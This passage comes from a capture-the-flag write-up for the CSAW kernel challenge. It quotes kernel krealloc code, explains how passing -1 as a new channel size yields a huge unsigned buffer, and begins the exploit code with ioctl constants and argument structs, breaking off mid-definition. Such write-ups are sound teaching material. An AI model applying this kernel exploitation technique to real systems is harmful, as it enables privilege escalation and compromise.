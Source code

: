 ```c

	ret = __do_krealloc(p, new_size, flags);
	if (ret && p != ret)
		kfree(p);

	return ret;
}
EXPORT_SYMBOL(krealloc);
```
where ZERO_SIZE_PTR is:
```c
/*
 * ZERO_SIZE_PTR will be returned for zero sized kmalloc requests.
 *
 * Dereferencing ZERO_SIZE_PTR will lead to a distinct access fault.
 *
 * ZERO_SIZE_PTR can be passed to kfree though in the same way that NULL can.
 * Both make kfree a no-op.
 */
#define ZERO_SIZE_PTR ((void *)16)
```
So setting new_size to -1, we get a channel with size: 0xffffffffffffffff, since buf_size is defined as unsigned.
So for now we can write the setup of our kernel exploit:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE + 1
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE + 3
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE + 5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE + 6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE + 7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE + 8
#define SEEK_SET    0
typedef unsigned long loff_t;
struct alloc_channel_args {
    size_t buf_size;
    int id;
};
struct grow_channel_args {
    int id;
    size_t size;
};
struct read_channel_args {
    int id;
    char *buf;
    size_t count;
};
struct write_channel_args {
    int id;
    char *buf;
    size_t count;
};
struct seek_channel_args {
    int id;
    loff_t index;
```